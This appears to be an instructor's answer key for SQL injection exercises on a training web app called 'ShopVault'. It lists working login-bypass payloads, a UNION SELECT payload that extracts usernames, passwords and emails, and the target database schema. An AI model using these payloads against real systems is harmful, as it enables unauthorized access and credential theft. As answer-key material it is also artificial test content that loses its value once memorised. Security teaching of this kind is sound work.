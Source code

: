 # ShopVault - Instructor's Answer Key

**🔑 Solutions and Expected Results for Lab Exercises**

---

## ⚠️ INSTRUCTOR USE ONLY

This document contains the solutions and expected results for all ShopVault lab exercises. Use this to guide students and verify their findings.

---

## Lab 1 Solutions: SQL Injection

### Exercise 1.1: Authentication Bypass

**Working Payloads**:
```sql
admin' OR '1'='1' --        ✅ Most reliable
admin' OR 1=1 --           ✅ Alternative syntax  
' OR ''=''--               ✅ Always true condition
admin'/**/OR/**/1=1--      ✅ Comment-based bypass
```

**Expected Results**:
- Student should successfully bypass authentication
- Application should log them in as the first user in the database (typically 'admin')
- Login screen should be bypassed completely

**Common Student Issues**:
- Forgetting the `--` comment syntax
- Not understanding case sensitivity in SQL
- Missing single quotes around conditions

### Exercise 1.2: Data Extraction

**Working UNION Payloads**:
```sql
' UNION SELECT Username, Password, Email, 'x', 'x', 'x', 'x', 'x' FROM Users --
```

**Expected Database Schema**:
```sql
Users Table:
- Id (INTEGER)
- Username (TEXT)
- Password (TEXT) 
- Email (TEXT)
- IsAdmin (INTEGER)
- CreatedAt (DATETIME)

Products Table:
- Id (INTEGER)
- Name (TEXT)
- Description (TEXT)
- Price (REAL)
- Category (TEXT)
- ImageUrl (TEXT)
- Stock (INTEGER)
- CreatedAt (DATETIME)
```
